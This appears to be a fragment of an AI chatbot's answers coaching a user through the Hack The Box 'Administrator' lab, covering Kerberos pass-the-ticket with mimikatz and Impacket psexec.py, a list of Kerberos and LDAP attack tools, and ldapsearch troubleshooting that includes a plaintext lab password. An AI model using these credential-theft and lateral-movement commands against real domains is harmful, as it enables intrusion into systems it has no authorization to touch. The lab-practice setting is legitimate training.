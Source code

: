 Using mimikatz:
Export the ticket from klist:
    
    klist -e
Pass the ticket with mimikatz:
    
    sekurlsa::tickets /export
Use the ticket with psexec.py from Impacket:
    
    psexec.py -k -no-pass administrator.htb/Olivia@10.10.11.42
Tools for LDAP and Kerberos Attacks
LDAP Enumeration: ldapsearch, ldapdomaindump, nmap (for LDAP-specific NSE scripts).
Kerberos Enumeration and Attacks: kerbrute, Impacket suite (GetNPUsers.py, GetUserSPNs.py), hashcat, mimikatz.
Each of these attacks requires the right permissions and contexts, so be sure to respect authorization limits and ethical guidelines. Let me know if you need specific command usage or more on configuring these tools!













Try Using the Full UPN (User Principal Name)
Instead of using CN=Olivia, you could try using the full UPN format (which is similar to an email address) as the username:

Olivia@administrator.htb
If Olivia is a user in the administrator.htb domain, this format might work.

Updated Command Example:
ldapsearch -x -H ldap://10.10.11.42 -D "Olivia@administrator.htb" -w "ichliebedich" -b "dc=administrator,dc=htb" "(objectClass=user)"
3. Check for Typo in the Password
Ensure that there are no typographical errors in the password (ichliebedich). It might also help to ensure that the password does not have any extra spaces, especially at the end.

4. Check the Account Lock or Permissions
It's possible that the Olivia account may be locked out or disabled in Active Directory. If you have the necessary permissions, check the status of the account and reset the password if needed.

5. Use -D with an Admin Account
If Olivia is not a privileged user or does not have access to query the directory, you can try binding with an admin account (such as Administrator) to see if you get any different results:

ldapsearch -x -H ldap://10.10.11.42 -D "Administrator@administrator.htb" -w "password" -b "dc=administrator,dc=htb" "(objectClass=user)"
Make sure to replace "password" with the actual password of the Administrator account.

6. Debugging with -LLL
You can also use the -LLL flag to simplify the output and help you debug the LDAP query more effectively:

ldapsearch -LLL -x -H ldap://10.10.11.42 -D "Olivia@administrator.htb" -w "ichliebedich" -b "dc=administrator,dc=htb" "(objectClass=user)"
This will show a more concise output and help you focus on the results rather than LDAP-specific metadata.
